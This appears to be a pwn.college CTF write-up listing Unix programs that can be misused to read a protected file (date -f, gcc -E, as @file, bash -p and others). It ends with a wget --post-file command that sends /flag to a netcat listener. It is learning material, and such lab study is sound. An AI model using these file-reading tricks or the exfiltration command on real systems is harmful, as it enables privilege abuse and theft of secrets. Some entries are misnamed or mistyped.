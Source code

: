 # pwn-college-writups-fundamentals-program-misuse  

more  
less  
tail  
head  
cat  
emuc  
vim  
nano  
rev — prints reverse text of the file  
od — prints the octal format of the text  
hd — gives a hex dump of the file  
xxd — produces three-column output by default: file offsets, the data in hex, and the data as text  
base32 — prints base32 encoded text  
base64 — prints base64 encoded text  
split — splits larger files into smaller files which would have higher permissions  
gzip — zips the file — can be read with zcat command  
bzip2 — bzips the given file — can be read by bzgrep command  
zip — zips the file — read by zgrep  
tar — zips the file in a different format — read by tar xvf file.tar.gz -O | grep "text”  
ar — a Unix utility that maintains groups of files as a single archive file — can be read by — ar pv super.a  
env — controls the environment variable — can be read by env -i [command] [if needed commandfile]  
timeout — utility that runs a specified command and terminates it if it is still running after a given period of time. — can read files when the command is given — timeout 5 [command] [file]  
stdbuf — Run a command with modified I/O stream buffering — can read files by stdbuf -oL [command]  
search — change reported architecture in new program environment or set personality flags — files can be read by setarch --addr-no-randomize [command]  
awk — used to print a file — can be used to read the file by awk ‘’ file  
sed — replaces the text in a file — can be read by sed ‘’ file  
bash — shell scripting language — bash privilege can be maintained by — bash -p  
date — gives the current date and time — can be used to read files by — date -f [filename]  
dmesg -print or control the kernel ring buffer — can be used to read files — by dmesg -F [filename]  
wc — print newline, word, and byte counts for each file — can be used to read files by — wc -files0-from=[filename]  
gcc — GNU project C and C++ compiler — Can be used to read a file by — gcc -x c -E "filename"  
AS — the portable GNU assembler — can be used to read files by — as @[filename]  
Level 50  

wget --header="Content-type: multipart/form-data boundary=FILEUPLOAD" --post-file /flag http://127.0.0.1:4554/  
and set up a listener with nat cat  
nc -vlnp 4554  
and get the flag

